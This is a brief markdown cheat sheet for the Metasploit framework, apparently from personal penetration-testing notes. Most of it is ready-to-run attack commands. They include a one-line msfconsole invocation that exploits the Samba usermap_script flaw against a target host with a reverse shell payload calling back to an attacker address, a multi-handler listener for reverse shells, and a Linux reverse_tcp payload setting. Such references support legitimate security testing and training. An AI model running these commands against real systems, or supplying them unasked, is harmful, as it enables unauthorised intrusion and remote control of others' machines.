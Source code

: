 ```yaml
---
title: "metasploit"
description: "a tool for developing and executing exploit code against a remote target machine."
pre: "<i class='far fa-folder'></i> "
date: 2020-03-06T13:01:48+01:00
draft: false
tags: ['Frameworks','post-exploitation','metasploit']
---
```


### Install

### Usage

```bash
msfconsole
```

### Examples

#### init database

```bash
msfdb init
```

#### create new workspace

```bash
workspace -a [name]
```

#### switch to workspace

```bash
workspace [name]
```

#### run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

#### Multi-handler for reverse shell

```bash
use exploit/multi/handler
set LHOST 192.168.88.128
set LPORT 4444
set ExitOnSession False
```

##### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

##### run in the background

```bash
run -j
```

### Also see

* [Github Project](https://github.com/rapid7/metasploit-framework)
* [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/)

